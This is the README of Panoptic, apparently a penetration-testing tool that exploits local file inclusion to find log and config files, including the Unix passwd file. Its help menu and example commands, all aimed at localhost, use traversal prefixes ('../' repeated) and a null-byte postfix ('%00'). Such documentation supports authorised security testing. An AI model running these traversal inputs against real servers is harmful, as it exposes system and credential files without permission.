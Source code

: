 Panoptic v0.1
===

Search default file locations through LFI for common log and config files

### Help Menu
    Usage: panoptic.py --url TARGET [options]

    Options:
        -h, --help            show this help message and exit
        -u TARGET, --url=TARGET
                                set the target to test
        -p PARAM, --param=PARAM
                                set parameter name to test for
        -d DATA, --data=DATA  set data for POST request
        -o OS, --os=OS        set operating system to limit searches to
        -s SOFTWARE, --software=SOFTWARE
                                set name of the software to search for
        -c CATEGORY, --category=CATEGORY
                                set specific category of software to look for
        -t CLASSIFICATION, --type=CLASSIFICATION
                                set type of file to search for ("conf" or "log")
        -b PREFIX, --prefix=PREFIX
                                set prefix for file path (e.g. "../")
        -e POSTFIX, --postfix=POSTFIX
                                set prefix for file path (e.g. "%00")
        -m MULTIPLIER, --multiplier=MULTIPLIER
                                set number to multiply the prefix by
        -w, --write-file      write all found files to output folder
        -x, --skip-passwd-test
                                skip special tests if *NIX passwd file is found
        -l LIST, --list=LIST  list available filters ("os", "category", "software")
        -v, --verbose         display extra information in the output

### Examples
    ./panoptic.py --help

    ./panoptic.py --url http://localhost/lfi.php?file=test.txt
    ./panoptic.py --url http://localhost/lfi.php?file=test.txt&id=1 --param file
    ./panoptic.py --url http://localhost/lfi.php --data "file=test.txt&id=1" --param file

    ./panoptic.py --list software
    ./panoptic.py --list category
    ./panoptic.py --list os

    ./panoptic.py --url http://localhost/lfi.php?file=test.txt --os Windows
    ./panoptic.py --url http://localhost/lfi.php?file=test.txt --software WAMP

    ./panoptic.py --url http://localhost/lfi.php?file=test.txt --verbose --write-file
    ./panoptic.py --url http://localhost/lfi.php?file=test.txt --prefix "../" --multiplier 4 --postfix "%00"


